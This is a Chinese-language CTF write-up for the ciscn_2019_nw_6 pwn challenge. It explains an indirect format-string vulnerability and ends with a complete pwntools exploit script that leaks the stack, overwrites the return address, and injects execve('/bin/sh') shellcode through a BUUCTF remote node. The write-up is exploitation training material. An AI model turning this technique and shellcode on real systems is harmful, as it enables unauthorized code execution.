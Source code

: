 # ciscn_2019_nw_6（fmt+shellcode）

# 查看

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450069234-0c8fc4d7-5275-491c-95b6-71e323cffd33.png)

32位啥都没开，存在fmt漏洞，猜测不在栈上

# ida

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450160482-2eeba105-ac19-47ea-9a85-0ec00d8357c4.png)

输入到s1

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450174653-8a675956-63ed-473b-8dfe-108ef5a4c6da.png)

bss段上

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450286984-306dc28d-df62-40f1-8b09-945f5662a654.png)

拷贝到s，![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450299432-fe23fe44-175a-4046-9fb3-cf0ce46d569f.png)

间接的fmt漏洞

先leak基址，再将puts_got改成system，输入binsh即可

# gdb

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450506745-d2c00df8-6618-4275-a1d0-ac046f555ab7.png)

偏移为4、8处是第一、二条栈链

17处可以leak基址

偏移为7处地址与got较近

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450611993-6f82bd83-0bfa-4b83-9794-6e205aabc824.png)

除此之外，还能用shellcode做，先读入shellcode到bss段，之后修改ret跳过去就可以了

# 脚本

[https://196011564.github.io/2019/07/13/CTF-BUUCTF-Pwn%E5%88%B7%E9%A2%98%E4%B9%8B%E6%97%85-(1)/#%E5%88%A9%E7%94%A8%E6%A0%88%E5%86%85%E4%B8%A4%E4%B8%AA%E6%A0%88%E7%A9%BA%E9%97%B4%E7%9A%84%E6%8C%87%E9%92%88%E6%9D%A5%E6%94%B9%E5%86%99ret%E5%9C%B0%E5%9D%80%EF%BC%8C%E7%84%B6%E5%90%8E%E9%A1%BA%E4%BE%BF%E6%9C%80%E5%90%8E%E5%86%99%E5%85%A5shellcode%E5%88%B0bss%EF%BC%8C%E7%84%B6%E5%90%8Eret%E8%B7%B3%E8%BF%87%E5%8E%BB](https://196011564.github.io/2019/07/13/CTF-BUUCTF-Pwn刷题之旅-(1)/#利用栈内两个栈空间的指针来改写ret地址，然后顺便最后写入shellcode到bss，然后ret跳过去)

```py
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'
context.arch = "i386"
my_u64 = lambda x: u64(x.ljust(8, '\0'))
#libc=ELF('libc-2.23.so')
a=0
if a==1:
    #p = process(['./stack2'],env={"LD_PRELOAD":"./libc-2.23.so"})
    p=process('stack2')
else:
    p=remote('node3.buuoj.cn',25520)    

#0804A160
#leak ebp
p.recv()
payload = "%12$p"
p.sendline(payload)
p.recvuntil("0x")
ebp = int(p.recv(8),16)
ret_addr = ebp + 0xc - 6*0x4
payload = "%." + str(ret_addr % 0x10000) + "d%23$hn"
p.sendline(payload)
sleep(0.2)
payload = "%." + str(0xA170) + "d%59$hn"
payload = payload.ljust(4*4,"\x00")
payload += b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
p.sendline(payload)
sleep(0.2)
p.sendline("hello")
log.success("ebp: " + hex(ebp))
p.interactive()
```